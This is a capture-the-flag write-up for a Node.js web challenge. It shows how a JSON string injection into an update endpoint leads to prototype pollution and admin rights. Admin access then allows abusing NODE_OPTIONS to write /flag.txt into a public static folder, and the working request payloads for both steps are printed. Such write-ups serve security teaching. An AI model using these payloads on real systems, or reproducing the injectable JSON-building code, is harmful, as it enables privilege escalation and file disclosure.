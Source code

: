 ## Okatu(8 solves, first blood)

Author: sqrtrev

(Solved by Jazzy, I just made an idea)

```
Javascript is fun too, well everything becomes fun when it's merged with Anime!

Flag is in /flag.txt

LINK

Author: _**KAHLA**_
```

check the part `app.post` for `/update`.

```js
app.post("/update",(req,res)=>{
	try{
	if(req.session.username && req.session.anime){
		if(req.body.username && req.body.anime){
			var query=JSON.parse(`{"$set":{"username":"${req.body.username}","anime":"${req.body.anime}"}}`);
			client.connect((err)=>{
				if (err) return res.render("update",{error:"An unknown error has occured"});
				const db=client.db("kimetsu");
				const collection=db.collection("users");
				collection.findOne({"username":req.body.username},(err,result)=>{
					if (err) {return res.render("update",{error:"An unknown error has occured"});console.log(err);}
					if (result) return res.render("update",{error:"This username already exists, Please use another one"});});
				collection.findOneAndUpdate({"username":req.session.username},query,{ returnOriginal: false },(err,result)=>{
					if (err) return res.render("update",{error:"An unknown error has occured"});
					var newUser={};
					var attrs=Object.keys(result.value);
					attrs.forEach((key)=>{
						newUser[key.trim()]=result.value[key];
						if(key.trim()==="isAdmin"){
							newUser["isAdmin"]=0;
						}
					});
					req.session.username=newUser.username;
					req.session.anime=newUser.anime;
					req.session.isAdmin=newUser.isAdmin;
					req.session.save();
					return res.render("update",{error:"Updated Successfully"});
				});
			});

		}
		else return res.render("update",{error:"An unknown error has occured"});
	}
	else res.redirect(302,"/login");
}
catch(err){
	console.log(err);
}
});
```

We can realize the vulnerability `Prototype Pollution` easily in this part, 

```js
var query=JSON.parse(`{"$set":{"username":"${req.body.username}","anime":"${req.body.anime}"}}`);

/... skip .../

var newUser={};
var attrs=Object.keys(result.value);
attrs.forEach((key)=>{
	newUser[key.trim()]=result.value[key];
	if(key.trim()==="isAdmin"){
		newUser["isAdmin"]=0;
	}
});
```

We can injection something for `Prototype Pollution` on `JSON.parse` part.

So, The payload will be like this

```
username=fboi", "__proto__ ":{"isAdmin":1}, "kms":"lms&anime=fboi
```

This will make the JSON object like this

```json
{"$set":{"username":"fboi", "__proto__ ":{"isAdmin":1}, "kms":"lms","anime":"fboi"}}
```

Of course, this will lead me for being admin by `Prototype Pollution`.

After having admin permission, we can do some acts with below code.

```js
app.post("/admin",(req,res)=>{
	if(req.session.isAdmin){
		var envName=req.body.envname;
		var env=req.body.env;
		var path=req.body.path;
		if(env && envName && path){
			if(path.includes("app.js") || path.includes("-")) return res.render("admin",{msg:"Not allowed"});
			process.env[envName] = env;
 			const child = execFile('node', [path], (error, stdout, stderr) => {
    		 if (error) {
			console.log(error);
        		return res.render("admin",{msg:"An error has occured"});
     		}
     		return res.render("admin",{msg:stdout});
 });
		}
		else res.redirect(302,"/home");
	}
	else res.redirect(302,"/home");
})
```

We will use node options for leaking flag.txt.

Node.js has the option `--report-filename` and `--report-uncaught-exception`. So, I'll use this.

As we don't know the location of application directory, I used `/proc/self/cwd`. And `/static` folder will be very helpful(We can access there!).

Following this, the payload will be:

```
envname=NODE_OPTIONS&env=--report-filename=/proc/self/cwd/static/js/siceme --report-uncaught-exception -r /flag.txt&path=config.js
```

So, the flag will be `http://url/static/js/siceme`.

